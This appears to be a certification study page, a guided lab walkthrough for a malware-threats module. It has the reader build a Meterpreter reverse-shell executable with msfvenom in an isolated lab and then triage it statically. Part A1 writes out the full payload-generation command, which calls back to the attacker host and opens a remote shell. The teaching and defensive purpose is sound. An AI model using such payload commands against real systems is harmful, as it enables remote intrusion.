

repository: morandeirachema/CyberCerts · page: certs/ceh/modules/07-malware-threats/lab-walkthrough/index.html · generator: mkdocs

# Module 07 — Malware Threats · Guided Lab Walkthrough

> A step-by-step, **do-it-in-order** lab against **your own** environment only (the isolated lab in [`../../labs/`](../../labs/README.md) — see [`../../labs/topology.md`](../../labs/topology.md)). **Never detonate real malware.** Everything here uses *benign* payloads you build yourself, static triage, and detection demos. Outputs shown are **representative** — yours will differ.

**Goal:** build a benign backdoor for *your* lab target, triage it *without running it*, classify it with YARA, then watch a LOLBin light up detection and a PAM control break the chain.

**Targets:** Kali `192.168.56.10` · Metasploitable2 `192.168.56.20` · Windows DC `192.168.56.30` (`ceh.lab`) · Windows member `192.168.56.31` (`ws01`).

**Prereqs:** lab is up (`labs/scripts/setup.sh`), Kali has `msfvenom`, `python3-pefile`, and `yara` installed, and the Windows lab VM is snapshotted so you can revert.

---

## Part A — Build a benign payload and triage it statically (never run it here)

### A1. Generate a benign backdoor for YOUR lab target
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f exe -o payload.exe
```
**You should see** msfvenom report the payload size and write the file:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: payload.exe
```
**Observe:** this is a *dropper-style* artifact you control — it exists only to be analyzed. It is meant for *your* Windows lab VM, never your host and never a third party.

<details><summary>Hint if msfvenom errors</summary>Update the framework (`sudo apt update && sudo apt install metasploit-framework`). Confirm the format with `msfvenom --list formats | grep exe`. Keep `LHOST` set to your Kali lab IP (`192.168.56.10`), not a public address.</details>

**Defender/PAM view:** app allow-listing ([attack-to-control-matrix.md](../../defender-pam/attack-to-control-matrix.md)) would block an unsigned exe like this from ever executing — the control we prove in Part C.

### A2. Hash it and look up reputation (submit the hash, not the file)
```bash
sha256sum payload.exe
file payload.exe
```
**You should see** a hash and a PE type:
```
9f2b...c4a1  payload.exe
payload.exe: PE32+ executable (GUI) x86-64, for MS Windows
```
**Observe:** the SHA-256 *is* the shareable IoC — you submit the **hash** to VirusTotal, never upload a live sample you don't own the rights to distribute.

<details><summary>Hint</summary>On VirusTotal use the "Search" box with the hash, not "Upload." A freshly built msfvenom exe may show high detection precisely because AV signatures know the stager.</details>

**Defender/PAM view:** hash reputation is a *signature* control — useful, but blind to fileless and freshly mutated samples. See [detection-engineering.md](../../defender-pam/detection-engineering.md).
